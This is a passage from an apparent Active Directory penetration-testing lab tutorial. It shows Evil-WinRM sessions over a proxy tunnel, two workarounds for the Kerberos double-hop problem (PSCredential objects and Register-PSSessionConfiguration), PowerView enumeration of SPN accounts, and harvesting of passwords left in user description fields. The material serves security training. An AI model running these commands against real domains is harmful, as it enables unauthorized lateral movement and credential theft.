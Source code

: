## Workaround #1: PSCredential Object

If we check with `klist`, we see that we only have a cached Kerberos ticket for our current server.

set up a PSCredential object and try again. First, we set up our authentication.

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now we can try to query the SPN accounts using PowerView and are successful because we passed our credentials along with the command.

```
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname
```

## Workaround #2: Register PSSession Configuration

We've seen what we can do to overcome this problem when using a tool such as evil-winrm to connect to a host via WinRM. What if we're on a domain-joined host and can connect remotely to another using WinRM? Or we are working from a Windows attack host and connect to our target via WinRM using the Enter-PSSession cmdlet? Here we have another option to change our setup to be able to interact directly with the DC or other hosts/resources without having to set up a PSCredential object and include credentials along with every command (which may not be an option with some tools).

One trick we can use here is registering a new session configuration using the Register-PSSessionConfiguration cmdlet.

```
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```

Once this is done, we need to restart the WinRM service by typing `Restart-Service` WinRM in our current PSSession. This will kick us out, so we'll start a new PSSession using the named registered session we set up previously.

```
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist
```

## Finding Passwords in the Description Field using Get-Domain User

```
PS C:\htb> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```




